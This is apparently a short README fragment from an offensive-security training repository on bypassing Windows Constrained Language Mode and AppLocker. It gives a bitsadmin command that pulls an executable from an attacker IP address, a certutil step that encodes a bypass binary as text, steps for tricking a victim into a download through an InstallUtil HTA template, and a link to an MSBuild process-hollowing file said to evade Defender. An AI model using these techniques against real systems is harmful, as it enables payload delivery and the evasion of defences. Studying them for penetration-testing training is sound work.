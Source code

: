 ### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [Hollow.xml](https://github.com/Extravenger/OSEPlayground/blob/main/03%20-%20CLM%20%26%20Applocker%20Bypass/3%20-%20MSBuild/hollow.xml). (Bypass defender and Applocker defautlt rules)
